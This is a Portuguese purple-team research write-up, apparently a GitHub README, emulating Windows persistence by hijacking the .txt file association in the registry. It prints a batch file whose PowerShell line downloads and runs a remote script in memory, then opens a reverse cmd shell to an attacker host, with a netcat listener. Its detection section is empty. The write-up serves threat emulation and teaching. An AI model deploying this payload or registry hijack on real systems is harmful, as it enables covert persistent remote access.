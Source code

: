 
<p align="center">
  <img src="./imagens/ISHLOGO.png" alt="Logo do Purple Team" width="300" height="300">
</p>

# CTI Purple Team - Execução Acionada por Evento: Alterar Associação de Arquivo Padrão

Nesta pesquisa, iremos abordar a tática [TA0003](https://attack.mitre.org/tactics/TA0003/) (Persistência), dando ênfase a sub-técnica [T1546.012](https://attack.mitre.org/techniques/T1546/001/) (Event Triggered Execution: Change Default File Association).

A tática de persisência é uma das maneiras pelas quais os invasores podem explorar eventos específicos do sistema para executar código malicioso de forma persistente. Neste tipo de ataque, os invasores modificam as configurações do sistema que controlam como os arquivos serão abertos por padrão quando um usuário interage com eles. Isso pode ser explorado por meio de diversas técnicas, incluindo, manipulação de resgistros do sistema ou exploração de vulnerabilidades em aplicativos que lidam com a abertura de arquivos.

Ou seja, quando um arquivo é criado em um sistema operacional como o Windows, ele é automaticamente associado a um programa específico que será usado para abrir esse tipo de arquivo. A execução acionada por evento permite que os usuários personalizem a maneira como os arquivos são abertos, definindo regras específicas para acionar a execução de aplicativos diferentes com base em diferentes eventos.

<p align="center">
  <img src="imagens/Fluxograma_ServiceExecution.png">
  <br>
  Figura 1: Fluxograma de Execução de Serviço
</p>

**A priori, para executar o sequestro de extensão, é importante salientar que o atacante já possua o primeiro acesso inicial à máquina alvo, com privilégios administrativos. Portando, já ter realizado a Execução e Escalação de Privilégios na vítima**.

## Contexto
Neste contexto, exploraremos os conceitos por trás da execução acionada por evento representando o sequestro da extenção ***.txt***, sendo possível executar um aplicativo malicioso antes que o arquivo real seja aberto, gerando um shell reverso na máquina do atacante, a fim de obter persistência. Vale lembrar que essa técnica pode ser usada para modificar qualquer tipo de extensão de arquivo como ***.exe***, ***.dll***, ***.bat***, ***.cmd*** entre muitas outras extensões, que podem ser exploradas por invasores para obter persistência em um sistema.

Por exemplo, um invasor pode modificar a associação de arquivo padrão para um tipo específico de arquivo, como documentos do Microsoft Word (.docx), para que, sempre que um usuário tente abrir esse tipo de arquivo, o sistema execute automaticamente um arquivo malicioso em vez de abrir o aplicativo correspondente.

**Info:** É possível executar este processo de duas maneiras: por meio da interface gráfica ou utilizando CLI como o prompt de comandos (CMD), porém vamos focar apenas na execução pela interface gráfica.

As seleções de associação de arquivos são armazenados no **Registro do Windows** e estão listadas em **HKEY_CLASSES_ROOT.[extention]**, no caso dessa pesquisa será listado em **HKEY_CLASSES_ROOT.txt** e, podem ser editados por usuários com permissões elevadas/administradores que tenham acesso ao Registro.

## Emulação de Ameaça - Criação de Arquivo Malicioso Através de Interface Gráfica

Há dois locais de registro que definem os manipuladores de extensão, que são mostrados a seguir, e são classificados como: *Global* e *Local*.

<p align="center">
  <img src="imagens/locais-de-registro.png">
  <br>
  Figura 2: Locais de registro Global e Local
</p>

Quando um arquivo é aberto, o sistema operacional verifica os registros locais em `(HKEY_CURRENT_USER)` para determinar qual programa está designado para lidar com aquela extensão de arquivo. Caso não houver nenhuma entrada de registro associada, a verificação será feita na árvore de registro global `(HKEY_CLASSES_ROOT)`.

<p align="center">
  <img src="imagens/chave-de-registro-user.png">
  <br>
  Figura 3: Registro Local sem aplicação padrão designada para abrir aquivos .txt
</p>

Acima, temos o exemplo de que a chave de registro local não possui nenhum aplicativo padrão designado para abrir arquivos de texto, confirmando a infromação citada anteriormente. 

Dependendo dos privilégios do usuário (Administrador ou Usuário Padrão), esses locais de registro podem ser explorados para executar código malicioso, utilizando o manipulador de extensão como um gatilho.

Portanto, podemos observar que o manipulador de extensão ***.txt*** está definido na chave de registro abaixo:
```zsh
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Ao abir um arquivo ***`.txt`***, o windows por padrão sabe que para abrir esse tipo de extensão precisa usar o ***`notepad.exe`***. Abaixo exemplifico que o comando responsável por abrir arquivos *.txt* é o *notepad.exe %1*, onde o argumento ***`%1`***, especifica um nome de um arquivo qualquer, ou seja, é uma variante para o nome dos arquivos que o bloco de notas deve abrir:

<p align="center">
  <img src="imagens/Editor-de-registro-HKEY.png">
  <br>
  Figura 4: Editor de registro HKEY_CLASSES_ROOT\txtfile\shell\open\command
</p>

Supomos que o usuário alvo possua uma arquivo chamado ***`test.txt`*** em sua área de trabalho, contendo o conteúdo do arquivo ilustrado abaixo:

<p align="center">
  <img src="imagens/arquivo-vitima.png">
  <br>
  Figura 5: Arquivo de teste para emulação
</p>

Iremos criar agora um arquivo malicioso que será executado quando o usuário alvo tentar abrir o arquivo chamado test.txt, sendo que com a execução desta têcnica pode ser qualquer arquivo aleatório, apenas seguindo o critério de extenção .txt usado como exemplo nesta pesquisa.

Para isso, criaremos um arquivo em lotes simples do Windows chamado ***shell.cmd*** na maquina do usuário alvo:
```zsh
start notepad.exe %1
start /min powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.140.128/purplecat.ps1');purplecat -c 192.168.140.128 -p 8081 -e cmd.exe"


```

Este comando do PowerShell baixa um script remoto chamado `purplecat.ps1` e executa em memória, pois ele não toca no disco, e em seguida, usa esse script para estabelecer uma conexão "backdoor" com uma máquina remota no endereço `IP 192.168.140.128` (ip da máquina atacante) na porta 8081, permitindo que comandos sejam executados cmd.exe nessa máquina.

A partir disso, podemos sequestrar a extensão do arquivo .txt, modificando os dados do valor de registro de `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` para `C:\Users\Win-test\Desktop\shell.cmd`, local onde nosso arquivo malicioso está gravado.

<p align="center">
  <img src="imagens/mod.registro.png">
  <br>
  Figura 6: Manipulador de registro sendo modificado
</p>

Após a modificação a chave de registro se encontrará da mesma maneira que a imagem a seguir:

<p align="center">
  <img src="imagens/modificado.png">
  <br>
  Figura 7: Manipulador de registro modificado 
</p>

A seguir na máquina do atacante, iremos rodar dois comandos no terminal, um para servir para baixar o arquivo aberto pelo usuário e outro para escutar a porta selecionada para sequestrar a sessão do sistema da vítima:

<p align="center">
  <img src="imagens/comando-para-baixar-arquivo.png">
  <br>
  Figura 8: Comando servindo para baixar arquivo executado
</p>

O comando acima, serve o arquivo para outra pessoa baixar os arquivos .txt abertos pela vítima. E o comando abaixo utilizaremos o [*NetCat*](https://www.devmedia.com.br/netcat-o-canivete-suico-tcp-ip-revista-infra-magazine-8/26299#:~:text=O%20Netcat%2C%20criado%20em%202004,conectividade%2C%20seguran%C3%A7a%2C%20entre%20outros.) como Listener, ao ser iniciado irá ouvir qualquer conexão realizada na porta **8081/TCP**. 

<p align="center">
  <img src="imagens/comando-escustar-maquina-alvo.png">
  <br>
  Figura 9: Comando NetCat servindo como listener
</p>

Após realizar todos esses passos e o processo de persisência configurado na máquina alvo com seucesso, quando o usuário alvo abrir qualquer arquivo de texto, o arquivo malicioso será executado simultâneamente, a comunicação será estabelecida com o *listener* na porta **8081/TCP**, mencionada acima. Abaixo é possível visualizar a execução.

<p align="center">
  <img src="imagens/gif-emulação.gif">
  <br>
  Figura 10: Obtendo shell reverso com cmd
</p>

## Engenharia de Detecção



# Conclusão

Esses são os passos envolvidos na exploração da execução acionada por evento para alterar a associação de arquivo padrão.

Portanto, ao manipular essas chaves do registro, os invasores podem garantir que seu código malicioso seja executado sempre que o usuário iniciar uma sessão no sistema, permitindo a persistência do ataque. Para prevenir esse tipo de ataque, é importante adotar práticas de segurança robustas, os usuários devem monitorar regularmente as chaves de registro em HKCU em busca de alterações não autorizadas, manter o sistema e os aplicativos atualizados, restringir privilégios de usuário para minimizar o impacto de possíveis ataques e educar os usuários sobre práticas seguras de computação, como não abrir arquivos de fontes desconhecidas.

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link](https://ishtecnologia.sharepoint.com/sites/CTI-PurpleTeam/_layouts/15/stream.aspx?id=%2Fsites%2FCTI%2DPurpleTeam%2FDocumentos%20Compartilhados%2FVideos%2FCTI%20Purple%20Team%20%2D%20Movimenta%C3%A7%C3%A3o%20Lateral%20Atrav%C3%A9s%20do%20Invoke%2DSMBExec%2Emp4&referrer=StreamWebApp%2EWeb&referrerScenario=AddressBarCopied%2Eview).
